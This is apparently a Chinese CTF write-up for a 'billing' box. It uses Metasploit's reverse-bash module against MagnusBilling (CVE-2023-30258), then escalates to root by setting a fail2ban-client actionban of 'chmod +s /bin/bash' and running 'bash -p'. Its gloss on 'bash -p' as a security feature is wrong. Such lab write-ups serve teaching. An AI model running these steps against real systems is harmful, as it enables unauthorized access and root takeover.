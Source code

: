 ```yaml
---
icon: pen-to-square
date: 2025-03-26
tags: 
title: billing
category:
  - 项目
---
```

## 1. 前言
本题运用了简单的[CVE-2023-30258](https://eldstal.se/advisories/230327-magnusbilling.html)漏洞，这是一个简单的远程命令执行漏洞
## 2. 复现步骤
### 反弹shell
这个漏洞已经在msf中收录了
`msfconsole`

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110410.png)

```bash
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110506.png)

```bash
show targets
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110536.png)

```bash
set PAYLOAD cmd/unix/reverse_bash
```
设置payload，然后设置Rhost Rport Lhost以及Lport
设置好监听接口以及payload之后，msf会自动接收反向shell
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112352.png)

### 提权
查看当前进程
```
ps -aux | grep fail
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112734.png)

**fail2ban-client** 是一个命令行界面，它允许我们与 **fail2ban-server** 进行交互、配置和控制。简单说明一下，**fail2ban** 是一种安全工具，可以监控日志文件中的可疑活动（例如重复失败的登录尝试），并通过更新防火墙规则来禁止违规的 IP 地址。

使用 fail2ban-client，您可以与 Fail2ban 服务交互以执行作，例如启动或停止 jail、查看或更新设置以及检查服务器上不同 jail 的状态。从本质上讲，它可以帮助您控制服务器如何响应可疑活动以确保其安全。[Fail2Ban – Linux 权限提升 - Juggernaut-sec](https://juggernaut-sec.com/fail2ban-lpe/#What_is_Fail2Ban)


`/etc/fail2ban/jail.local`，有这样的参数

|     |                                                                                                                                                                                                                    |
| --- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
|     | `[asterisk-iptables]`<br>enabled  = true<br>filter   = asterisk<br>action   = iptables-allports`[name=ASTERISK, port=all, protocol=all]`<br>logpath  = /var/log/asterisk/messages<br>maxretry = 5<br>bantime = 600 |
|     |                                                                                                                                                                                                                    |

```
sudo /usr/bin/fail2ban-client status
```
查看当前的防火墙规则
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326113233.png)
有 8 个活动的 jail
`Jails`基本上是定义要监控的日志、要查找的模式以及匹配模式时要采取的作的配置。

关键命令
```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
这段命令会启动`fail2ban-client`设置`asterisk-iptables`规则的`action`项，在action项中添加actionban，这条命令会在执行恶意操作的时候尝试执行

```bash
sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
```
查看`asterisk-iptables`的`action`项的actionban配置的内容

现在，我们可以手动禁止 **asterisk-iptables** jail 的 IP 地址，它将执行 action 中定义的命令。
```bash
iptables-allports-ASTERISK
```

```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4
```
这条命令的作用是将 IP 地址 `1.2.3.4` 添加到 `asterisk-iptables` jail 的禁止列表中。从而触发actionban中的降shell权的操作

```bash
/bin/bash -p
```
- **`-p` 选项**：启用特权模式（Privileged Mode）。
- 
- **特权模式的作用**：
    - **忽略启动文件**：在特权模式下，Bash 会忽略用户的启动文件（如 `.bashrc`、`.bash_profile` 等），直接进入交互模式。
    - **增强安全性**：这种模式通常用于需要更高安全性的场景，例如在某些受限环境中运行脚本时，避免加载用户自定义的配置文件，从而减少潜在的安全风险。